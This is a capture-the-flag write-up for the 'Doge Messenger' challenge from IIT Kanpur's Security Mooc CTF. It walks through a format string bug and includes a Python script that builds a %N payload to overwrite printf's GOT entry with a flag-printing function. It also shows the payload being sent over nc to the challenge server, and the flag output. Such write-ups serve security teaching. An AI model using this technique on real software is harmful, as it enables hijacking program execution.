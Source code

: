 ```yaml
---
title: "Doge Messenger (200 points) [Security Mooc CTF]"
date: 2017-07-06 00:00:06 +0530
categories:
  - Write-ups
header:
  teaser: "https://i.imgur.com/oucceD8.png"
tags:
  - SecurityMooc
excerpt: "Write-up for Doge Messenger, a problem in CTF conducted as a part of IIT Kanpur's Security Mooc"
---
```

Here's the [file link](/assets/write-ups/securitymoocctf/doge).
Here's the [C Source](/assets/write-ups/securitymoocctf/doge.c).


```
We have lost control on execution sequence of this program, a controlled execution were
allowing us to get the master key which one can use to login to anyone's tinder :). Here
is the binary and here is the source code. Use nc 52.7.95.224 8040 to connect to server.
```

Inspecting the source we have a function to get the flag:
{% highlight c%}
void getFlag()
{
	system("/bin/cat flag.txt\n");
}
{% endhighlight %}
But we don't have any calls to it.
Since all buffers and operations have fixed size thus, no buffer-overflow.

We notice at `line 62` that there's a `printf(buf)` (with a more-than-sufficient size of 256). So we can write at any address exploiting this format string vulnerability. Trying the string `aaaa%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X...` We see that that our input can be found at the 7th position (Notice the toggled case of 'aaaa').

I fired up gdb and checked `printf()`'s [disassembly](/assets/write-ups/securitymoocctf/doge.asm). Observe that it reads a jump using a value as an address from Data Segment (GOT):
{% highlight nasm%}
0x8048580 <printf@plt>:	jmp    DWORD PTR ds:0x804b010
{% endhighlight %}

So I chose the location `0x804b010`.
I got `getFlag()`'s address using `nm doge | grep getFlag` which gives `0x0804878b` as the value to write.

Our objective is to write exactly `0x0804878b` at location `0x804b010`.
Notice since I was writing using `printf` for the first time, I tried writing byte-by-byte instead of the usual 2 byte method, using python:
{% highlight python linenos %}
import struct
s='Kunal\n2\n'			#Need second call to printf to jump to getFlag()
s+=struct.pack('I',0x804b010) + 'a'*4
s+=struct.pack('I',0x804b011) + 'a'*4
s+=struct.pack('I',0x804b012) + 'a'*4
s+=struct.pack('I',0x804b013)
ff="%X"*5+"%" + str(0x4d + 0x8)
ff+= "X"+"%N%"+str(0x187-0x93+0x8)+"X%N%"
ff+= str(0x204-0x8f+0x8)+"X%N%"
ff+= str(0x108-0xc+0x8) + "X%N"
s+=ff
# with open("inp",'w') as f:
#	f.write(s)			#For use with gdb
print s					#For use with nc/debugging
{% endhighlight %}

One thing to take care of is that after the input, the program toggles the case of all the alphabets so, we had to be careful to toggle them intitally to nullify that effect (We fortunately didn't have any alphabets in any of the address bytes).

Now trying this input:
```console
$ python input.py | nc 52.7.95.224 8040 
                   ▄              ▄
                  ▌▒█           ▄▀▒▌
                  ▌▒▒█        ▄▀▒▒▒▐
                 ▐▄▀▒▒▀▀▀▀▄▄▄▀▒▒▒▒▒▐
               ▄▄▀▒░▒▒▒▒▒▒▒▒▒█▒▒▄█▒▐
             ▄▀▒▒▒░░░▒▒▒░░░▒▒▒▀██▀▒▌
            ▐▒▒▒▄▄▒▒▒▒░░░▒▒▒▒▒▒▒▀▄▒▒▌
            ▌░░▌█▀▒▒▒▒▒▄▀█▄▒▒▒▒▒▒▒█▒▐
           ▐░░░▒▒▒▒▒▒▒▒▌██▀▒▒░░░▒▒▒▀▄▌
           ▌░▒▄██▄▒▒▒▒▒▒▒▒▒░░░░░░▒▒▒▒▌
          ▌▒▀▐▄█▄█▌▄░▀▒▒░░░░░░░░░░▒▒▒▐
          ▐▒▒▐▀▐▀▒░▄▄▒▄▒▒▒▒▒▒░▒░▒░▒▒▒▒▌
          ▐▒▒▒▀▀▄▄▒▒▒▄▒▒▒▒▒▒▒▒░▒░▒░▒▒▐
           ▌▒▒▒▒▒▒▀▀▀▒▒▒▒▒▒░▒░▒░▒░▒▒▒▌
           ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒░▒░▒░▒▒▄▒▒▐
            ▀▄▒▒▒▒▒▒▒▒▒▒▒░▒░▒░▒▄▒▒▒▒▌
              ▀▄▒▒▒▒▒▒▒▒▒▒▄▄▄▀▒▒▒▒▄▀
                ▀▄▄▄▄▄▄▀▀▀▒▒▒▒▒▄▄▀

         D O G E   M E S S E N G E R
         Send your message to doge!!

Your name: 
How many messages do you want to send? 
Your message: 
Doge's response: <Garbage>
...
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
```

